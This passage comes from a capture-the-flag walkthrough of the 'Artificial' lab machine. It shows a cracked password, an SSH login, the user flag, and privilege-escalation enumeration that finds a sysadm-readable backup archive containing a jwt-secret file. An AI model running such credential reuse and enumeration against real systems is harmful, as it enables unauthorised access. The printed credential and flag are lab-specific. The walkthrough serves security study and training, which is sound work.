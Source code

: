 And by using some cracker we are able to retrive the password:

`mattp005numbertwo`

Now lets try to enstablish an ssh connection. 

`ssh gael@artificial.htb`
`mattp005numbertwo`

Once inside I am able to retrive the user flag:

`gael@artificial:~$ cat user.txt`

`8aa7596c0be1f2b9a84a620754e0414e`

Now that we have the user flag! Lets move to the root flag.

```
gael@artificial:~$ sudo -i
gael is not in the sudoers file.  This incident will be reported.

gael@artificial:~$ id
uid=1000(gael) gid=1000(gael) groups=1000(gael),1007(sysadm)

gael@artificial:~$ find / -group sysadm 2>/dev/null
/var/backups/backrest_backup.tar.gz

ls -l /var/backups/backrest_backup.tar.gz
-rw-r----- 1 root sysadm 52357120 Mar  4  2025 /var/backups/backrest_backup.tar.gz
```

So we can use it! Now lets look at whats inside it without extracting it.

```
tar -tf /var/backups/backrest_backup.tar.gz | sed -n '1,200p'

backrest/
backrest/restic
backrest/oplog.sqlite-wal
backrest/oplog.sqlite-shm
backrest/.config/
backrest/.config/backrest/
backrest/.config/backrest/config.json
backrest/oplog.sqlite.lock
backrest/backrest
backrest/tasklogs/
backrest/tasklogs/logs.sqlite-shm
backrest/tasklogs/.inprogress/
backrest/tasklogs/logs.sqlite-wal
backrest/tasklogs/logs.sqlite
backrest/oplog.sqlite
backrest/jwt-secret
backrest/processlogs/
backrest/processlogs/backrest.log
backrest/install.sh
```
